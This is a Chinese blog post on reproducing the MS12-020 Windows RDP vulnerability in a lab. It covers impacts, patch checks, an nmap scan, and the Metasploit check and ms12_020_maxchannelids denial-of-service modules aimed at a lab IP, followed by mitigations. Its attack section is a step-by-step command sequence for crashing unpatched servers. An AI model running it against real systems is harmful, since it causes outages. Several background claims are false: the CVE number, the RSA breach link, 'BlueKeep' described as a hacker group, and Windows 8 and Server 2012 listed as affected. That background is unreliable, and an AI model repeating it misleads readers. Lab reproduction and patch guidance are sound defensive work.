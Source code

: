 #  MS12-020漏洞利用及复现  
原创 simeon的文章  小兵搞安全   2025-06-09 05:51  
  
## 1.1MS12-020简介  
  
MS12-020 漏洞是微软在2012年发布的一个安全更新所修复的漏洞，它涉及到Windows操作系统的远程桌面协议（RDP）。该漏洞编号为CVE-2012-0003，属于远程代码执行（RCE）类型，允许未经认证的攻击者通过发送特制的RDP数据包到开启了RDP服务的目标系统上来执行任意代码。  
### 1.1.1具体危害  
  
**1.远程代码执行（RCE）**  
  
攻击者可发送特制RDP数据包，触发内存处理错误，在目标系统上执行任意代码，获得**SYSTEM级权限**  
，从而完全控制系统（安装程序、窃取数据、创建账户等）  
367  
。此危害级别最高，但实际稳定利用难度较大，需精准绕过安全机制。  
  
**2.系统崩溃与蓝屏（DoS）**  
  
更常见的危害是触发**死亡蓝屏**  
（BSOD），导致系统崩溃重启。此攻击成功率极高，可瘫痪关键服务器或工作站。例如，Metasploit的auxiliary/dos/windows/rdp/ms12_020_maxchannelids  
模块专用于此类攻击。  
  
**3.敏感数据泄露**  
  
成功利用RCE后，攻击者可访问系统内所有文件、凭证、数据库等敏感信息。历史案例显示，该漏洞曾导致美国RSA安全公司技术秘密被盗。  
  
**4.大规模传播风险**  
  
漏洞影响几乎所有主流Windows版本（XP/Vista/7/8、Server 2003/2008/2012等）。2019年黑客组织“BlueKeep”仍利用此漏洞在互联网扩散恶意软件。  
<table><tbody><tr style="height: 33px;"><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">危害类型</span></span></strong></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">严重程度</span></span></strong></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">具体影响</span></span></strong></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">利用难度</span></span></strong></p></td></tr><tr style="height: 33px;"><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">远程代码执行</span></span></strong></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">⚠️</span></span><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf=""> 极高</span></span></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">系统完全沦陷，数据泄露</span></span></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">高</span></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">系统崩溃/蓝屏</span></span></strong></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">⚠️</span></span><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf=""> 高</span></span></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">服务中断，系统瘫痪</span></span></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">低</span></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">敏感数据泄露</span></span></strong></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">⚠️</span></span><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf=""> 高</span></span></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">凭证、文件、数据库等被窃取</span></span></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">中</span></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">蠕虫传播</span></span></strong></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">⚠️</span></span><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf=""> 中</span></span></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">内网横向渗透，大规模感染</span></span></p></td><td data-colwidth="187" width="187" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">中</span></span></p></td></tr></tbody></table>### 1.1.2漏洞排查  
  
systeminfo | findstr "KB2621440"  
  
systeminfo | findstr "KB2667402"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEBzEAgdQXeBLTgVMpic62qicjqcPDW84KKSxR9L1McSaDxkVt9GSc0pE0Gnudd7YcsdMNY9ooxibxIg/640?wx_fmt=png&from=appmsg "")  
## 1.2漏洞利用  
### 1.2.1实验条件  
  
1.被攻击目标  
  
内网IP地址：192.168.199.131 server2008 未修补漏洞  
  
2.攻击环境  
  
kali环境。  
### 1.2.2扫描目标服务器端口  
  
1.扫描目标端口  
  
nmap -Pn 192.168.199.131  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEBzEAgdQXeBLTgVMpic62qicvEHw19Uz902kQCzIKNmpfewdVnnADicRYVvC3A29sSu9PC69aBbybcA/640?wx_fmt=png&from=appmsg "")  
### 1.2.3漏洞检测  
  
1.msf下搜索ms12-020关键字  
  
search ms12-020  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEBzEAgdQXeBLTgVMpic62qicickapQrB8YsYMZxYiaUI6vb1tqiarPljZ1Sv8ibByxtxf2uKib0l5MWWhicw/640?wx_fmt=png&from=appmsg "")  
  
2.使用模块进行检查  
  
 （1）use auxiliary/scanner/rdp/ms12_020_check  
  
（2）info 查看信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEBzEAgdQXeBLTgVMpic62qicQVh97Ey4s1yJvicI2rD0AfQ30kXLOWQSYZho17Db5ylCQY63A7nd2WA/640?wx_fmt=png&from=appmsg "")  
  
（3）配置被攻击服务器IP  
  
set RHOSTS 192.168.199.131  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEBzEAgdQXeBLTgVMpic62qicNg2tnlaxzhkSkg2O6jicAXia3T895yXLDgdFR1s8z6tdJ3Loic7Qym3hA/640?wx_fmt=png&from=appmsg "")  
  
（4）漏洞可利用检查  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEBzEAgdQXeBLTgVMpic62qic7wIERsE0Q3d5zpHoKvOQa6UI2z3oibDTZkCGgvYdqftToVuUvHQ3d0g/640?wx_fmt=png&from=appmsg "")  
### 1.2.4Dos攻击  
  
1.执行以下命令  
  
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids  
  
set RHOSTS 192.168.199.131   
  
run  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEBzEAgdQXeBLTgVMpic62qiczqrG9rgGhr5oyEhLiarXelP4bQplfCwNUahGXYeicM3xxFNVYee7gWFg/640?wx_fmt=png&from=appmsg "")  
  
结果如下图所示  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEBzEAgdQXeBLTgVMpic62qicugwnJeRjvxDetwelsq4RhAH7Ua9ztkrTDfeibPRulrDPQAbZmjR61SQ/640?wx_fmt=png&from=appmsg "")  
  
### 1.3防护措施  
  
**1.安装官方补丁**  
  
微软补丁KB2621440（  
下载链接  
）。  
https://learn.microsoft.com/zh-cn/security-updates/SecurityBulletins/2012/ms12-020  
  
**2.加固RDP服务**  
  
启用**网络级身份验证（NLA）**  
：要求连接前先验证用户身份  
  
。  
  
关闭“允许任意版本远程桌面连接”，限制可信IP访问  
  
。  
  
**3.减少攻击面**  
  
关闭不必要的3389端口，或通过VPN访问RDP。  
  
配置防火墙规则，禁止公网访问3389  
  
。  
  
**4.主动监控**  
  
使用IDS/IPS检测异常RDP数据包（如大量MS_T120  
信道请求）。  
### 1.4总结  
  
MS12-020因其**影响范围广、利用工具成熟**  
，成为内网渗透的经典漏洞。尽管补丁已发布多年，未修复的系统（如老旧服务器、工控设备）仍面临极高风险。**防御核心是关闭非必要RDP服务+强制身份验证**  
，同时通过补丁彻底消除隐患  
  
。对于安全人员，该漏洞复现需在授权环境下进行，避免对生产系统造成不可逆损害。现在补丁文件也不好下载了，只能限制访问访问。  
  
  

